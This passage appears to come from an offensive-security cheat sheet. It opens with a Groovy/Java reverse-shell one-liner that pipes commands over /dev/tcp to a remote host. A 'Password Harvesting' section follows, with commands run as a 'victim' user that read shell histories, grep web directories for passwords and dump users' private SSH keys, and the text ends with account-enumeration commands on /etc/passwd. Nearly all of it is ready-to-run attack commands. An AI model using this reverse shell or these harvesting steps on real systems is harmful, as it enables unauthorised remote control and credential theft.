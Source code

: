```sh
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Password Harvesting

Passwords can be found in many places

```sh
# Process lists

user@victim $ ps -efw

# Usernames entered into login prompt by mistake

user@victim $ last -f /var/log/bmtp

# Usernames entered into command line arguments

user@victim $ cat /home/*/.*history

# Passwords saved in web files

user@victim $ grep -iR password /var/www

# SSH keys

user@victim $ cat /home/*/.ssh/id*
```

Enumerate password and account information with ```chage```

```sh
user@victim $ chage -l
```

## Unusual Accounts

Look in /etc/passwd for new accounts in a sorted list:

```sh
user@RoseSecurity $ sort -nk3 -t: /etc/passwd | less
```

Look for users with a UID of 0:

```sh
user@RoseSecurity $ grep :0: /etc/passwd
```

## Enumerating with Finger
